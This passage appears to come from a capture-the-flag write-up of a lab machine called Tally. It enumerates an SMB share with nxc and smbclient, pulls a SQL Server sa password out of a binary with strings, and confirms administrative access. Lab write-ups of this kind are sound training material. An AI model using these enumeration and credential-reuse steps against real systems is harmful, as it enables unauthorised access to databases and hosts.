 We have permission to read the ACCT share. Let’s enumerate:

```bash
nxc smb 10.10.10.59 -u Finance -p Acc0unting --spider ACCT --regex .
```

There are a lot of files. Let’s just use smbclient and connect to the share:

```bash
smbclient //10.10.10.59/ACCT -U Finance
```

![image.png]({{ site.baseurl }}/assets/tally/image%205.png)

conn-info.txt:

```bash
old server details

db: sa
pass: YE%TJC%&HYbe5Nw

have changed for tally
```

The note is telling us the details have changed for tally, let’s try regardless:

```bash
nxc mssql TALLY -u sa -p 'YE%TJC%&HYbe5Nw' --local-auth

#did not work

nxc mssql TALLY -u sa -p 'UTDRSCH53c"$6hys' --local-auth
```

Did not work. Back on the smb share, we also find an interesting file in zz_Migration/binaries/New folder/tester.exe. Since this seems abnormal, let’s download it and use strings on it:

```bash
strings -n 8 tester.exe

DRIVER={SQL Server};SERVER=TALLY, 1433;DATABASE=orcharddb;UID=sa;PWD=GWE3V65#6KFH93@4GWTG2G;

```

Seems we found the connect string:

```bash
sa:GWE3V65#6KFH93@4GWTG2G
```

Let’s see if it’s valid:

```bash
nxc mssql TALLY -u sa -p 'GWE3V65#6KFH93@4GWTG2G' --local-auth

MSSQL       10.10.10.59     1433   TALLY            [*] Windows 10 / Server 2016 Build 14393 (name:TALLY) (domain:TALLY)
MSSQL       10.10.10.59     1433   TALLY            [+] TALLY\sa:GWE3V65#6KFH93@4GWTG2G (Pwn3d!)

```
